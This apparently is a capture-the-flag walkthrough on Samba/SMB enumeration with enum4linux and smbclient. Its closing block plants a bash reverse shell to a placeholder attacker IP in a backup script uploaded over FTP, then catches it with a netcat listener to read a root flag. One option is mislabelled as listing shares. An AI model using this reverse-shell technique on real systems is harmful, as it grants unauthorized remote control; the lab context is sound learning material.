 # Don't be so sElfish
## Topic and concepts
Network file sharing protocols, Samba, Shares search, Share connection.<br>
* File sharing protocols used by organisations/company networks
* SMB (Server Message Block)
* NFS (Network File System)
* Share
* Difference between Samba and FTP
* `enum4linux`
* `smbclient`
* Accessing a share with wrong permissions
* Count the number of users on a Samba server
* Count the number of shares
* Identifying a share not requiring a password
## Walkthrough
List all `enum4linux` options:
```
./enum4linux.pl -h
```
List shares:
```
-U
```
List shares:
```
-S
```
Access a Samba server and its shares:
```
smbclient //<instance-ip-address>/<share>
```
Download a file from a share:
```
get
```
Upload a file to a share:
```
put
```
## Ressources
[CiscoCXSecurity/enum4linux](https://github.com/CiscoCXSecurity/enum4linux): 
Tool installation page<br>

9
ftp MACHINE_IP
cd public
get backup.sh backup.sh
vi backup.sh
bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1
nc -lvnp 4444
put backup.sh backup.sh
cat /root/flag.txt
